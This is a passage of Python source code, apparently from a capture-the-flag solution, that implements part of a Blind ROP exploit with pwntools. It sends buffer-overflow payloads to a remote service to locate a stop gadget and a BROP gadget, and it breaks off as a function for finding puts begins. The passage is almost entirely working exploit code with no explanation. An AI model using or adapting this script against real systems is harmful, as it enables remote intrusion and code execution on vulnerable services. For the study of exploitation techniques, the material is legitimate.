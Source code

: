 ```python
			if 'WelCome my friend,Do you know password?' in recv:
				p.success('Done')
				log.success('Stop Address : ' + hex(addr))
				return addr
			
		except Exception as e:
			r.close()

def find_brop_gadget(size,stop_gadget):
	p = log.progress('Searching for BROP Gadget')
	for offset in range(0x700,0x1000):
		if offset % 0x100 == 0:
			log.info('Progressed to 0x%x'%offset)
		
		addr = base + offset

		if maybe_brop_gadget(size,stop_gadget,addr):
			log.info('Maybe BROP Gadget : '+str(hex(addr)))
			if is_brop_gadget(size,addr):
				p.success('Done')
				log.success('Found BROP Gadget : '+str(hex(addr)))
				return addr
			
def is_brop_gadget(size,addr):
	try:
		payload = ''
		payload += "A"*size
		payload += p64(addr)
		payload += p64(0x41)*6
	
		r = remote(ip,port,level='error')
		r.recvline()
		r.send(payload)
		recv = r.recv(timeout=0.2)
		r.close()
		return False

	except Exception as e:
		r.close()
		return True

def maybe_brop_gadget(size,stop_gadget,addr):
	try:
		payload = ''
		payload += "A"*size
		payload += p64(addr)
		payload += p64(0)*6
		payload += p64(stop_gadget)

		r = remote(ip,port,level='error')
		r.recvline()
		r.sendline(payload)
		recv = r.recv(timeout=0.2)
		r.close()
		if 'WelCome my friend,Do you know password?' in recv:
			return True
		return False

	except Exception as e:
		r.close()
		return False

def find_puts_addr(size,stop_gadget,rdi_ret):
```
